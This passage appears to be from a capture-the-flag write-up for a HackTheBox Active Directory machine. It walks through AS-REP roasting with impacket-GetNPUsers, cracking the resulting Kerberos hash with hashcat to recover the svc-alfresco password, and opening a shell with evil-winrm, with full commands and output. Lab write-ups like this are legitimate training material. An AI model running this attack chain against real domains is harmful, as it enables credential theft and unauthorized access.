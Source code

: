 We'll format these usernames into a usable list and feed it into `GetNPUsers` to find accounts with No Pre-Authentication enabled.
```bash
└─$ impacket-GetNPUsers -no-pass -k -dc-ip 10.10.10.161 'htb.local/' -usersfile usernames.txt 
---snip---
[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc-alfresco@HTB.LOCAL...
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
---snip---
```

Now that we have the hash, I'll upload the has into it's own file and run it through hashcat with rockyou.txt:
```bash
└─$ hashcat svc_alfresco.hash /usr/share/wordlists/rockyou.txt --force
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Hash.Target......: $krb5asrep$23$svc-alfresco@HTB.LOCAL:d41804a8a15406...3bd581
Time.Started.....: Sat Jan 25 17:40:36 2025, (2 secs)
Time.Estimated...: Sat Jan 25 17:40:38 2025, (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  2327.3 kH/s (4.48ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 4096000/14344384 (28.55%)
Rejected.........: 0/4096000 (0.00%)
Restore.Point....: 4079616/14344384 (28.44%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: s9039302b -> s/n/o/o/p/y/
Hardware.Mon.#1..: Temp:100c Util: 69%

Started: Sat Jan 25 17:40:19 2025
Stopped: Sat Jan 25 17:40:39 2025
```
svc-alfresco s3rvice

We'll use these credentials to try get a WinRM session using Evil-Rm
```bash
└─$ evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice         
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents>
```
From here we can grab the users flag from the Desktop.
